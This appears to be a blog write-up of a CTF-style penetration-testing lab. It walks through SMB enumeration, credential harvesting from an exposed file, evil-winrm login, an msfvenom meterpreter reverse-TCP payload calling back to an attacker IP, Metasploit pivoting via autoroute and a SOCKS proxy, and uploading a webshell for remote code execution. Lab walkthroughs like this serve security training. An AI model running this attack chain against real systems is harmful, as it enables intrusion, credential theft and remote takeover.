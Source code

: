 ```yaml
---
title: Powershell for pentesters
description: This lab focuses on leveraging PowerShell to gain initial access to a machine. You will then establish remote access and exploit a second machine that is not directly accessible from Kali. By identifying misconfigurations, extracting sensitive credentials, and obtaining a remote shell, you will demonstrate your ability to move through a multi-stage attack scenario.
author: xFraylin
date: 2025-08-21 00:42:00 +0800
categories: [ine]
tags: [Labs]
image:
  path: https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/logoo.png?raw=true
---
```


## Let's do a scan firts

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/1nmap.png?raw=true)

>
```bash 
nmap -sCV serve.prod.local
```
1. sC active  default nmap scripts
2. -sV  detect service versions
{: .prompt-tip }
>
We perform a basic nmap script,version. As you can see have smb available
{: .prompt-info }

#Well once we know that there is an smb service running let's try to check if have public files, in my case when I tried with ```smbmap it doesn't work, then i did with smbclient```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/2smbcl.png?raw=true)

>
```bash
smbclient -L //server.prod.local/
```
1. -L list all available shares
{: .prompt-tip}
>
So i Used this to enumare the share's files, As you can see there is ```11``` files available, We can use smbmap and the correct file to get acess
{: .prompt-info }

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/3smbs.png?raw=true)
>
```bash
smbclient //server.prod.local/Utilities -U ""
```
1. -U "" Try to log with an empty cred (anynymous acess
{: .prompt-info }
>
We attemtp an anonymous loging using the current comand to check is the SMB share is accesible without valid creds, ( files that are on the current folder you can download typing   ```"get" following the file``` dont fortget that the first flag is here.
{: .prompt-tip}

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/4getcred.png?raw=true)
Once we downloaded the files, Firts read de flag1 and the misconfiguration file, that exposed credentials

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/evil-winrm.png?raw=true)
  Well with those credentials we can try to log in with ```evil-winrm``` with the following command
```bash
evil-winrm -i server.prod.local -u jack -p password
```
>
1. -i to specify    the host
2. -u the username
3. -p the password
{: .prompt-info}

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/flag2.png?raw=true)

You can find the flag in the C:\ Directory

>
LETS GENERATE A WINDOWS PAYLOAD TO GET A METERPRETER SESSION
{: .prompt-tip}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.40.3 LPORT=4447 -f exe > payload.exe
-p speciy the os system
LHOST= the attacker ip (listener)
LPORT= the attacker port
-f the extension 
>  =    the name of the payload
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/msfvenom.png?raw=true)

Now go  to ```msfconsole and start the multi/handler```
```bash
msfcosole
use multi/handler
set PAYLOAD  windows/x64/meterpreter/reverse_tcp
set LHOST=10.10.40.3
set LPORT=4447
run
```
We utilize the same options here when we generate the payload, you have to put the same.
>
you have to knwo  that   we have a session open on evil-winrm, with winrm we can upload our payload with the command ```upload payload.exe```
an we got se meterpreter session
{: .prompt-info}
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/multi_handler.png?raw=true)

Once que have the meterpreter session opened, we can search for the post exploit module, the autorute
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/auto_proxy.png?raw=true)
```bash
use post/multi/manager/autoroute 
set session 1
run
```
once the autoroute its complete we can set up socks proxy, in this case ``socks_proxy``

```bash
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9050
run
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/socks_config.png?raw=true)

>
WELL, I FORGOT AT THE BEGINNING SAY TO YOU, THAT THERE IS TWO SERVER THERE IS ONE UNRACHEABLE, web.ine.local AND THE ANOTHER server.prod.local


`web.prod.local` unreachable

`server.prod.local` reachable
{: .prompt-info}

Once the socks_proxy module is running we can try accessing to the unrechable server with proxychains,
```bash
proxychains firefox web.pro.local

= proxychains its a proxy tool that allow us to interact with the socks_proxy running on the metasploit session
```

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/acess%20to%20the%20web.png?raw=true)
Now that we know that we have access to that network we can perform a scan.

Let's use the portscan module to scan the target
in this case we are going to use portscan/tcp

```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS web.prod.local
set PORTS 1-500
run
```
There is 4 open ports, let's explore the smb port
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/smbopen.png?raw=true)

We can list all the shares with the following command
```bash
proxychains smbclient -L //web.prod.local/

proxychains = the socks proxy tool
-L = List all the shares available
```
There is 4 Shares, but there is one intersting `wwwroot` let's try to access to that share
![Desktop View](https://raw.githubusercontent.com/xFraylin/xfraylin.github.io/refs/heads/main/assets/Powershell/filesavasmbproxy.png)

Well right here there if the flag number 3
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/flag3.png?raw=true)

>
You can upload a webshell o whatever you want to get access to the target, on my case i'll upload a webshell, that its available in `/usr/share/webshells/` you can find whathever you want.
{: .prompt-info}
![Desktop view](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/uploadtheshell.png?raw=true) 

`I uploaded the cmdasp.aspx to get a RCE on the web `

`You can find the flag4 on the C:\ Dir`
![Desktop view](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/flag4.png?raw=true)

>
We perform a enumeration scan, generate payload to inject the target, and we did pivoting.
{: .prompt-tip}
